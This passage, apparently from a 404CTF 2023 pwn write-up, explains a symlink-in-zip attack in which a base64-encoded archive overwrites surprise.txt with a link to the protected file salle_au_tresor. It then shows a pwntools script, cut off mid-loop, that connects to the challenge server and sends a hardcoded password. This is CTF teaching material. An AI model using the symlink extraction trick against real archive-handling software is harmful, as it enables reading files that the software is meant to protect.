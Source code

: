 We can put a symlink from surprise.txt to salle_au_tresor in mystere.zip.

### Exploit

We encode base64 a symlink from surprise.txt to salle_au_tresor. The program put in mystere.zip the base64 decoded payload (the symlink).

The program unzip mystere.zip, overwriting surprise.txt that is now a symlink to salle_au_tresor.

The program reads a line from surprise.txt that is a symlink to salle_au_tresor. So, the program reads a line from salle_au_tresor and reads it for us.

### Payload Creation

In local, we create a file called salle_au_tresor. We create a symlink to it. We zip surprise.txt into mystere.zip. Then we encode in base64 mystere.zip.

![payload](/assets/img/CTFs/404CTF2023/pwn/cache-cache_le_retour/payload.png)

Our payload is ready.

### Final Code

```python
from pwn import *
import time

while True:
    #p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'6qzQbN(m>@KROp^1(Gh:'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        #time.sleep(0.6)
        continue
    else:
```